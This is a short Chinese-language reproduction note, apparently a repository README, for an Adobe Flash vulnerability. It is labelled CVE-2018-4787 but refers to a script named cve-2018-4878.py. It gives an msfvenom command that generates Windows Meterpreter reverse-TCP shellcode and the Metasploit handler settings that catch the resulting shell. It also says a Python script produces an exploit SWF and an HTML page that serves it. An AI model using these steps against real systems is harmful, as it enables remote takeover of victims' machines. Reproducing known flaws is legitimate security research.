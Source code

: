 # CVE-2018-4787 复现记录
## Adobe Flash
`影响版本:`
  Adobe Flash 28.0.0.137及其之前的版本

    metasploit Framework个人笔记
    https://zhuanlan.zhihu.com/p/40091321

# Msfvenom生成shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
# Metasploit Listen
    use exploit/multi/handler
    set LHOST IP
    set LPORT 4444
    set payload windows/meterpreter/reverse_tcp 
##cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。

##exploit.swf和index.html为cve-2018-4878.py生成的利用页面

